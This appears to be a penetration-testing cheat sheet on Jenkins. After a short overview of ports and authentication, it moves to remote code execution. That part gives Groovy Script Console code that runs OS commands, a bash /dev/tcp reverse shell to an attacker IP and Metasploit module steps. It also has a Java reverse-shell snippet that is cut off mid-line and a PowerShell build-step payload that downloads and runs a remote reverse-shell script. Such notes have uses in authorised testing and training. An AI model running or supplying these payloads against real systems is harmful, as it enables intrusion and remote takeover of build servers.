


# Jenkins

Jenkins is a **Java-based open-source automation server**, designed to support continuous integration by automatically building and testing software whenever changes are made. By default, Jenkins includes a lightweight Java-based web server called **Winstone** on the `8080` port, but it can also be deployed as a **Web Application Archive (WAR)** file to run inside a Java servlet container like Apache Tomcat, Jetty, or GlassFish. It uses port `5000` to connect with slave nodes for distributed tasks. When Jenkins run as a Windows service, it typically uses Winstone and runs under as `SYSTEM`.&#x20;

For authentication, Jenkins supports multiple backends including its local user database, LDAP, Unix user accounts, or a servlet container. It can also be configured to allow unauthenticated access. In its default state, **Jenkins stores credentials in its internal database** and does not permit users to create their own accounts.

## RCE

### Script Console

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/) (`/script`), which allows us to run arbitrary Groovy scripts within the Jenkins controller runtime and can be abused to run operating system commands on the underlying server. Groovy is an object-oriented Java-compatible language. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.



Run arbitrary system commands (similar to a webshell):

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```



Send a reverse shell:


```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```




Metasploit's [jenkins\_script\_console](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) module:

```bash
> use exploit/multi/http/jenkins_script_console
> show targets
> set TARGET < target-id >
> show options
> exploit
```



Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host:


```groovy
String host="<attacker-IP>";
int port=<attacker-port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.ge
```




### Build Step

If the compromised user is does not have eleveated privileges, but is able to configure projects, we can still get RCE by creating/modyfing a Build Step and passing an RCE command to be executed:

<figure><figcaption></figcaption></figure>


```powershell
# Payload
powershell.exe iex (iwr http://172.16.99.37/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.99.37 -Port 443
```


<figure><figcaption></figcaption></figure>
